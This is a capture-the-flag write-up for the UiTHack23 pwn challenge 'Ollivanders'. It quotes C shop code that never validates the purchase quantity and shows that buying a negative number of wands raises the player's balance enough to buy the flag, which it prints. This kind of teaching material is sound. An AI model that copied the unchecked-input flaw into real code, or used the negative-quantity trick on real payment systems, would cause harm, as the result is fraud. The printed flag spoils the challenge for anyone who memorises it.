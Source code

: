 > # Pwn - Ollivanders
> > Pwn - 100pts
>
> Before you go to Hogwarts you need to buy yourself a proper wand. <br>
> Visit Mr. Ollivander's shop and see if he has something interesting to sell you!
>
> [Files](src/ollivanders)
>
> You can connect to *Ollivanders* with
> ```bash
> $ nc motherload.td.org.uit.no 6300
> ```

## Writeup
Looking at the source code we can see that we can only buy items from the shop. We do not have enough galleons to buy the flag, but we can buy a wand for 7g. <br>

Buying the *Holly wand* we are prompted with
```
How many would you like to buy?
```
Looking at the source code we can see that our input is multiplied with the price, and subtracted from our galleons amount
```c
if(item == 1){
  amount = buy_amount();
  if((galleons - 7 * amount) < 0){
    puts("Not enough galleons!\n");
    return galleons;
  }
  galleons -= 7 * amount;
  puts("\nYou have purchased the Holly wand!");
}
```
We can input any amount as there is no check for it
```c
int buy_amount(){
  int amount;
  puts("\nHow many would you like to buy?");
  printf(">> ");
  if(scanf("%d", &amount) == 0)
    exit(0);
  return amount;
}
```
This means that we can input a negative number to get more galleons, becuase of how to program calculates the new galleons amount

```
You have 20g

What item would you like to buy?
1. Holly wand      7g
2. Flag            50g
>> 1

How many would you like to buy?
>> -10
You have purchased the Holly wand!

You have 90 galleons

What item would you like to buy?
1. Holly wand      7g
2. Flag            50g
>> 2
You have purchased the flag!

UiTHack23{Why_w0uld_y0u_buy_4_n3gat1ve_am0un7?}
```
```
UiTHack23{Why_w0uld_y0u_buy_4_n3gat1ve_am0un7?}
```
